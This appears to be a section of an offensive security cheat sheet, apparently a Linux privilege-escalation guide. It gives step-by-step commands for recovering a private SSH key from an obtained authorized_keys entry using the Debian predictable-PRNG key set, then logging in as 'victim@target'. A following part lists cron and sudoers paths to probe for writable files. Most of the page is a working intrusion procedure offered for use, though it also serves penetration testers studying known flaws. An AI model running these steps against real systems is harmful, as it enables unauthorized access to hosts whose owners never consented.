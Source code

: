 ### SSH Key Predictable PRNG (Authorized_Keys) Process

This module describes how to attempt to use an obtained authorized_keys file on a host system.

Needed : SSH-DSS String from authorized_keys file

**Steps**

1. Get the authorized_keys file. An example of this file would look like so:

```
ssh-dss AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf ... (snipped) ... 
```

2. Since this is an ssh-dss key, we need to add that to our local copy of `/etc/ssh/ssh_config` and `/etc/ssh/sshd_config`:

```
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/ssh_config
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/sshd_config
/etc/init.d/ssh restart
```

3. Get [g0tmi1k's debian-ssh repository](https://github.com/g0tmi1k/debian-ssh) and unpack the keys:

```
git clone https://github.com/g0tmi1k/debian-ssh
cd debian-ssh
tar vjxf common_keys/debian_ssh_dsa_1024_x86.tar.bz2
```

4. Grab the first 20 or 30 bytes from the key file shown above starting with the `"AAAA..."` portion and grep the unpacked keys with it as:

```
grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf'
dsa/1024/68b329da9893e34099c7d8ad5cb9c940-17934.pub
```

5. IF SUCCESSFUL, this will return a file (68b329da9893e34099c7d8ad5cb9c940-17934.pub) public file. To use the private key file to connect, drop the '.pub' extension and do:

```
ssh -vvv victim@target -i 68b329da9893e34099c7d8ad5cb9c940-17934
```

And you should connect without requiring a password. If stuck, the `-vvv` verbosity should provide enough details as to why.

## Scheduled tasks

### Cron jobs

Check if you have access with write permission on these files.   
Check inside the file, to find other paths with write permissions.   

```powershell
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
```